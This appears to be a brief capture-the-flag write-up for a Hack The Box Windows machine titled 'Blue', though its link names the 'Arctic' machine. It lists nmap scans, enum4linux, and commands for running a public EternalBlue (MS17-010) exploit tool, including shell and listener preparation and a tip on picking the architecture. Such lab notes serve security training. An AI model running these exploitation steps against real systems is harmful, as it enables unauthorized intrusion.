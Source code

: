 # Blue
* Link: https://app.hackthebox.com/machines/Arctic
* Type: Windows
* Difficulty: Easy

## Commands Used
* *nmap -sC -sV -oA OUTPUTDIR IPADDRESS* - Nmap scan.
* *nmap --script vuln -oA vuln IPADDRESS* - Runs vulnerability scan on the IP address provided.
* *nmap -p 445 --script safe -Pn -n IPADDRESS* - Runs safe scripts on the provided port (Good to do after identifying the open ports)
* *https://github.com/3ndG4me/AutoBlue-MS17-010*
  - *python eternal_checker.py IPADDRESS*
  - *pip install -r requirements.txt*
  - *./shell_prep.sh*
  - *./listener_prep.sh*
  - *python eternalblue_exploit7.py TARGETIPADDRESS PATHTOSHELLCODE/sc_64x.bin>* - When I used *all* it crashed the box so use the specific architecture (x64 or x32)

* *enum4linux -a IPADDRESS* - enum on windows machines.


## Steps
* Start by checking the open ports using nmap (nmap -sC -sV -oA DIR IPADDRESS)
* There is smb port open (445).
* Check if eternal blue is applicable using nmap script.
* Search for PoC for the CVE.
* Use the CVE to get root access.
